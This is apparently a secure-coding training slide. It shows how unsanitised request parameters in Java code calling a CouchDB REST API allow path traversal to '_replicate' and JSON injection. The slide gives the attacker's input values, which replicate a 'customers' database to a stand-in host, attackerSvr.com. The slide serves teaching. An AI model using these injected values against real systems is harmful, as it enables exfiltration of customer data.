

# Rest Extensions Data Exfiltration Apply Your Knowledge(Couch DB)
String id = request.getParameter(“id”);
URL url = new URL(“http://svr.com:5984/customers/../_replicate”);

String name = request.getParameter(“name”);
String json = “{\”fullName\”:\”X\”, \”source\”:\”customers\”, \”target\”:\”http://attackerSvr.com:5984/corpData\”}”;

Attacker provides:
id = “../_replicate”
name = ‘X”, “source”:”customers”, “target”:”http://attackerSvr.com:5984/corpData’